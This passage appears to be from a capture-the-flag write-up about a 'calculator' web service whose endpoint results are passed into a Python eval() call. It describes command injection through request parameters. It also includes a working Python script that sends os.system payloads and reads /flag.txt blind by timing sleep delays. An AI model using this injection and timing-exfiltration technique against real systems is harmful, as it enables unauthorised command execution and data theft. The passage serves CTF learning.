 ```js
app.get('/div', (req, res) => {
    if (!(req.query.n1 && req.query.n2)) {
        res.json({"error": "No number provided"});
    }
    res.json({"result": req.query.n1 / req.query.n2});
});

app.get('/mul', (req, res) => {
    if (!(req.query.n1 && req.query.n2)) {
        res.json({"error": "No number provided"});
    }
    res.json({"result": req.query.n1 * req.query.n2});
});
```

Using the variables `n1` and `n2` obtained from the HTTP request parameters, different arithmetic operations are performed depending on the endpoint and the results are returned. We see that `add` looks promising as it concatenates and returns `n1` and `n2`.

Then back at `calculator`, this response is used in an `eval()` function call:
```py
result = r.json()
res = result.get('result')
if not res:
    return str(result.get('error'))
try:
    res_type = type(eval(res,  builtins.__dict__, {}))
```

We can now inject OS commands into either `n1` or `n2` and setting the arithmetic operation to be `/add`. However, the output of the OS command is never shown to us since the `eval()` is wrapped by a `type()` function call. Furthermore, the command execution takes place on the `calculator` host, which does not have access to the `public` network, meaning we cannot simply `curl` out the flag.

Our approach would be to read the flag character by character and `sleep`-ing when the guessed character is correct. To do this, a script was created to simplify the process. We `sleep` for 5 seconds when the guess is correct.

```py
import requests

url = "https://maas.rars.win/calculator"
timeout = 5

def send_req(payload):
    data = {
        "mode": "arithmetic",
        "add": "1",
        "n2": " ",
        "n1": payload
    }
    res = requests.post(url, data=data)
    if res.elapsed.total_seconds() > timeout:
        return True
    else:
        return False

def brute_len():
    print("Flag Length: ", end="", flush=True)
    for i in range(1, 101):
        cmd = "if [ $(cat /flag.txt | wc -m) == {} ]; then sleep {}; fi".format(i, timeout)
        payload = "__import__('os').system('{}')".format(cmd)
        if send_req(payload):
            print("{}".format(i))
            return i

```